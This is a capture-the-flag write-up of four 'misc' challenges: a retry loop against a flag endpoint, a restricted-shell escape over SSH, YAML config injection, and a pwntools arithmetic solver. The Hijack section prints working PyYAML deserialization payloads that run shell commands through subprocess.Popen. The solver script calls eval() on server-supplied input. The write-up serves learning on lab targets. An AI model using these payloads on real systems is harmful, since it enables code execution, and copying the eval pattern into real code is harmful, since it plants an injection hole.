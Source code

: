 # misc

## Persistence
> Solved by Legend

Challenge description


> Thousands of years ago, sending a GET request to /flag would grant immense power and wisdom. Now it's broken and usually returns random data, but keep trying, and you might get lucky... Legends say it works once every 1000 tries.

In this challenge we are given `IP` along with `Port Number`  to connect to the challenge and retrieve the flag using the `GET` request.

Initially checking the URL it gave something gibberish.

![](https://i.imgur.com/Yf7EiWW.png)


The hint of the challenge was that the `/flag` works once in 1000 tries. So I made a loop to do the same.


    for i in `seq 1 1000`; do curl -s http://68.183.45.143:31981/flag | grep -i "HTB" ; done

And after running for sometime it gave the flag.

![](https://i.imgur.com/WbpHGPu.png)

----------

## Restricted
> Solved by Legend

Challenge description


> You 're still trying to collect information for your research on the alien relic. Scientists contained the memories of ancient egyptian mummies into small chips, where they could store and replay them at will. Many of these mummies were part of the battle against the aliens and you suspect their memories may reveal hints to the location of the relic and the underground vessels. You managed to get your hands on one of these chips but after you connected to it, any attempt to access its internal data proved futile. The software containing all these memories seems to be running on a restricted environment which limits your access. Can you find a way to escape the restricted environment ?

In this challenge we are given SSH shell escape to get the flag.

Going through the docker file we can get some info of what configuration is done to the challenge

1. The shell is set to `rbash` which basically means restricted bash.


    RUN chown -R restricted:restricted /home/restricted


1. The flag file will have some random value appended to it as written in the config


    RUN mv /flag.txt /flag_`cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1`

Since it is a SSH escape challenge I remembered that I have solved a challenge like this before so first thing I did was to check if we can execute remote code without opening the SSH shell.

![](https://i.imgur.com/KAPfFSz.png)


It worked!! So now all I had to do was look for the flag file name as it gets changed and cat it. 

![](https://i.imgur.com/6Tce4Cu.png)


We got the flag.

![](https://i.imgur.com/MQyffnB.png)

----------

## Hijack
> Solved by Starry-Lord


![](https://i.imgur.com/c1ZeYkj.png)


Connect with nc to the docker instance, then create a config and decode the base 64. We can see it gives back YAML syntax so we can try to inject commands with subprocess.Popen:

After base64 encoding it, and using the “Load config” option, This worked!

    !!python/object/apply:subprocess.Popen
    - ls

I had to dig a little more to find how to give arguments to the command:


    !!python/object/apply:subprocess.Popen
    - !!python/tuple
      - ls
      - -la

  
And solved:


    !!python/object/apply:subprocess.Popen
    - !!python/tuple
      - cat
      - flag.txt
![](https://i.imgur.com/b0l46TJ.png)

----------

## Remote Computation
> Solved by : thewhiteh4t


    #!/usr/bin/env python3
    
    from pwn import *
    
    host = '188.166.152.84'
    port = 30603
    conn = remote(host, port)
    conn.recvuntil(b'>').decode()
    conn.send(b'1\n')
    
    for x in range(500):
        ques_line = conn.recv().decode()
        ques = ques_line.split(': ')[1].split(' = ?')[0]
        try:
            ans = round(eval(ques), 2)
            if ans < -1337.00 or ans > 1337.00:
                print('Got Memory Error')
                ans = 'MEM_ERR'
        except SyntaxError:
            print('Got Syntax Error')
            ans = 'SYNTAX_ERR'
        except ZeroDivisionError:
            print('Got Zero Error')
            ans = 'DIV0_ERR'
        ans = str(ans).encode()
        conn.sendline(ans)
        print(f'Answered {x} questions')
    
    print(conn.recvuntil(b'}').decode())
    


![](https://i.imgur.com/AVK9rWh.png)

----------

